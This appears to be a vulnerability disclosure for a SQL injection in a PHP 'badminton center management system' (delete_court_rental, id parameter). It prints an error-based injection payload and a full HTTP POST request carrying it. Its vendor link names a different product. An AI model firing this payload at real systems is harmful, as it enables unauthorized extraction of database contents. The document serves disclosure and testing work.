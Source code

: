 # badminton-center-management-system v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Date: 2022-05-06

Vulnerability File: /bcms/classes/Master.php?f=delete_court_rental

Vulnerability location: /bcms/classes/Master.php?f=delete_court_rental, id

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

Tested on Windows 10, XAMPP

```
POST /bcms/classes/Master.php?f=delete_court_rental HTTP/1.1
Host: bcms.com
Proxy-Connection: keep-alive
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://bcms.com
Referer: http://bcms.com/bcms/admin/?page=court_rentals
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4gth9auqof3f53e4gedjm3dct2

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![](https://github.com/mikeccltt/badminton-center-management-system/raw/main/sql.gif?raw=true)